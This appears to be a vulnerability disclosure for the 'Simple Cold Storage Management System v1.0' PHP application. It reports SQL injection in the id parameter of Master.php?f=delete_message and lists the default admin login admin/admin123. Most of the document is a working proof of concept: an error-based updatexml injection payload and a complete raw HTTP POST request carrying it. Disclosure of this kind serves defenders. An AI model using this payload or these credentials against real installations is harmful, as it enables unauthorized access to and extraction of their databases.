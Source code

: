 # Simple Cold Storage Management System v1.0 by oretnom23 has SQL injection

BUG_Author: oner

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15088/simple-cold-storage-management-system-using-phpoop-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /csms/classes/Master.php?f=delete_message

Vulnerability location: /csms/classes/Master.php?f=delete_message, id

dbname =csms_db,length=7

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /csms/classes/Master.php?f=delete_message HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/csms/admin/?page=bookings
Content-Length: 65
Cookie: PHPSESSID=d8pesjl7i2jtmf2qddggbp7q0b
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191014580-cfab4a62-1b89-464a-afa4-38a9a32eb5a0.png)

